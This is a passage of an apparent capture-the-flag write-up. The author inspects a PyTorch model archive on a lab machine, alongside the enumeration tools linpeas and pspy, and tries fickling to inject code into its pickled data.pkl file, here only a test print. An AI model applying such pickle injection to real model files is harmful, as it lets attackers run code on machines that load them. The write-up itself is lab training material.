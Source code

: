 ```bash
 extracting: smaller_cifar_net/.data/serialization_id  
jippity@blurry:/tmp/.raccoon$ ls
demo_model.pth  linpeas.sh  pspy64  smaller_cifar_net
jippity@blurry:/tmp/.raccoon$ cd smaller_cifar_net/
jippity@blurry:/tmp/.raccoon/smaller_cifar_net$ ls
byteorder  data  data.pkl  version
jippity@blurry:/tmp/.raccoon/smaller_cifar_net$ cat byteorder 
littlejippity@blurry:/tmp/.raccoon/smaller_cifar_net$ cat version 
3
jippity@blurry:/tmp/.raccoon/smaller_cifar_net$ ls data
0  1  2  3  4  5  6  7
jippity@blurry:/tmp/.raccoon/smaller_cifar_net$ cat data *
cat: data: Is a directory
littlecat: data: Is a directory
�ccollections
OrderedDict
q)Rq(X
      conv1.weightqctorch._utils
_rebuild_tensor_v2
q((Xstorageqctorch
FloatStorage
qX0qXcpuqM�tQK(KKKKtq	(K	KKtq
�h)Rq
     tq
X      Rq
conv1.biasqh((hhX1qhKtqQKK�qK�q�h)RqtqRqX
                                         conv2.weightqh((hhX2qhMtqQK(K KKKtq(K�K	KKtq��h)RqqRqX
conv2.biasqh((hhX3qhK tq QKK �q!K�q"�h)Rq#tq$Rq%X
fc1.weightq&h((hhX4q'hJtq(QKK��q)K�q*�h)Rq+tq,Rq-fc1.biasq.h((hhX5q/hK�tq0QKK��q1K�q2�h)Rq3tq4Rq5X
fc2.weightq6h((hhX6q7hMtq8QKK
K��q9K�K�q:�h)Rq;tq<Rq=fc2.biasq>h((hhX7q?hK
tq@QKK
�qAK�qB�h)RqCtqDRqEu}qFX	_metadataqGh)RqH(XqI}qJXversionqKKsXconv1qL}qMhKKsXconv2qN}qOhKKsXpoolqP}qQhKKsXfc1qR}qShKKsXfc2qT}qUhKKsXreluqV}qWhKKsusb.3
```

The only true point I could inject into here seems to be the data.pkl file, certainly what the fickling portion is made to prevent. Now fickling can be used to inject stuff into .pkl files but I opted to search for a different solution. In my travels on the net I found [a post going over injecting ML models with ransomware](https://hiddenlayer.com/research/weaponizing-machine-learning-models-with-ransomware/#Pickle-Code-Injection-POC). There lies a script that allows us to define the execution method of the injected code between os.system, exec, eval, or runpy.

Now before reaching that post I tested a lot of fickling payloads and couldn't get them to run anything, even when varying the methods. Perhaps a skill issue but the post gave me an exploit to inject with that gave some results. Example of fickling failures below:

```bash
jippity@blurry:~$ fickling --inject "print('test')" smaller_cifar_net/data.pkl > data2.pkl
jippity@blurry:~$ ls
automation  clearml.conf  data2.pkl  demo_model.pth.bak  pickle_inject.py  smaller_cifar_net  user.txt
jippity@blurry:~$ mv smaller_cifar_net/data.pkl .
jippity@blurry:~$ mv data2.pkl smaller_cifar_net/data.pkl
jippity@blurry:~$ tar -cvf fickling_test.pth smaller_cifar_net/
smaller_cifar_net/
smaller_cifar_net/.data/
smaller_cifar_net/.data/serialization_id
smaller_cifar_net/data/
smaller_cifar_net/data/6
smaller_cifar_net/data/3
smaller_cifar_net/data/0
smaller_cifar_net/data/4
smaller_cifar_net/data/1
```
